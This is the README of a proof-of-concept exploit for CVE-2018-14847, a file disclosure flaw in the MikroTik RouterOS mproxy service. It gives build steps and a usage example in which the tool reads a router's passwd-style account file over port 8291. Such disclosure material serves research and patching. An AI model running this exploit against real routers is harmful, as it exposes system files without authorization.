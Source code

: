 # CVE-2018-14847 Proof of Concept

This is an implementation of CVE-2018-14847 which is a file disclosure vulnerability affecting the mproxy binary in Router OS up to 6.42. 

## Compilation
This code was tested on Ubuntu 18.04. There is a dependency on boost, gtest, and cmake. Simply install them like so:

```sh
sudo apt install libboost-dev cmake
```

To compile simply do the following:

```sh
cd mproxy_file_disclosure
mkdir build
cd build
cmake ..
```

## Usage

```sh
albinolobster@ubuntu:~/mikrotik/mproxy_file_disclosure/build$ ./mproxy_file_disclosure --ip 192.168.1.103 --port 8291

=== File Contents (size: 69) ===
nobody:*:99:99:nobody:/tmp:/bin/sh
root::0:0:root:/home/root:/bin/sh
```
